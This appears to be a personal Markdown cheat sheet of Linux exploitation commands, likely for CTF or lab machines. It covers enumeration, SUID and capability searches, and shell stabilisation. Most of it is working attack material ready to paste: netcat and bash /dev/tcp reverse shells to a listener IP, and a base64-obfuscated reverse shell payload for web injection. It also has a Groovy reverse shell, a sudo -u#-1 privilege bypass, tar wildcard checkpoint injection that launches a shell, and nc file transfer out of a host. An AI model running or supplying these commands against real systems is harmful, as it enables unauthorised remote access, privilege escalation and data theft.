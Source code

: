 # Linux Exploitation

## Enumerate Linux Machine
* [LinEnum](https://github.com/rebootuser/LinEnum)
* [LinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite): 
    * `./linpeas.sh | tee enum.txt` 
    * `less -r enum.txt`

## Find Interesting Files
* Find File With uuid Permission
    * `find / -perm /u=s 2>/dev/null`
    * `find / -perm /4000 2>/dev/null`
* Files With Capabilities
    * `getcap -r / 2>/dev/null`


## Generate reverse ncat
* `msfvenom -p cmd/unix/reverse_netcat lhost=10.13.3.36 lport=4444`
    * `mkfifo /tmp/kirxhbg; nc 10.13.3.36 4444 0</tmp/kirxhbg | /bin/sh >/tmp/kirxhbg 2>&1; rm /tmp/kirxhbg`
* Bash Reverse Shell
    * `bash -c 'bash -i >& /dev/tcp/10.13.3.36/4444 0>&1'`
    * Create one to send on the web
```bash
$ echo 'bash -i >& /dev/tcp/localhost/4444 0>&1' | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC9sb2NhbGhvc3QvNDQ0NCAwPiYxCg==

# Add spaces to remove the + and =

$ echo 'bash  -i >& /dev/tcp/localhost/4444 0>&1 ' | base64
YmFzaCAgLWkgPiYgL2Rldi90Y3AvbG9jYWxob3N0LzQ0NDQgMD4mMSAK

# Send this as the payload
$ echo YmFzaCAgLWkgPiYgL2Rldi90Y3AvbG9jYWxob3N0LzQ0NDQgMD4mMSAK | base64 -d | bash
```
* Listener: `nc -klvnp 4444`
    * k - Wait for more connections after completion
    * l - Listen for connection
    * v - Verbose
    * n - Don't do DNS lookup
    * p - Port to listen to

## Reverse Shells

### PHP Reverse Shells
* phpbash (webshell): https://github.com/Arrexel/phpbash
* php-reverse-shell.php : https://github.com/pentestmonkey/php-reverse-shell
* #!/usr/bin/env php

### Groovy Reverse Shell
```groovy
String host="10.13.3.36";
int port=4444;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

## Stabilisation of Shell
```sh
python3 -c 'import pty; pty.spawn("/bin/bash")'; export TERM=xterm
```
CTRL-z
```sh
stty raw -echo;fg
```

https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/


## sudo
* List sudo Permisions
    * `sudo -l`
* Abuse sudo with (ALL, !root)
    * `sudo -u#-1`

## Abuse tar With Wildcard *
```sh
echo "mkfifo /tmp/kirxhbg; nc 10.13.3.36 4444 0</tmp/kirxhbg | /bin/sh >/tmp/kirxhbg 2>&1; rm /tmp/kirxhbg" > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
```

## Using nc To Transfer Files

On the receiving machine
```bash
nc -l -p 1234 > file
```
On the sending machine, open the connection and send the file.

```bash
nc -w 3 10.13.3.36 1234 < file
```
